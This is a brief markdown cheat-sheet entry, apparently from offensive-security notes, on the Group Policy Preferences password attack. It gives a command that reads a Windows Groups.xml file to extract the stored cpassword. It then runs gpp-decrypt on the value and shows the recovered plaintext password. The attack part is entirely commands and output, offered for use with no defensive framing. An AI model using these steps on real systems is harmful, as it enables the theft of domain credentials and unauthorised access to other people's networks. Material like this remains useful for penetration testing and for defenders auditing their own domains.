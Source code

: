 ## GPP password attack
Locate `Groups.xml` file and extract `cpassword`
```
cat 'C:\ProgramData\Microsoft\Group Policy\History\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Preferences\Groups\Groups.xml'
```
Decrypt `cpassword`
```
gpp-decrypt 'CiDUq6tbrBL1m/js9DmZNIydXpsE69WB9JrhwYRW9xywOz1/0W5VCUz8tBPXUkk9y80n4vw74K eUWc2+BeOVDQ'
MyUnclesAreMarioAndLuigi!!1!
```

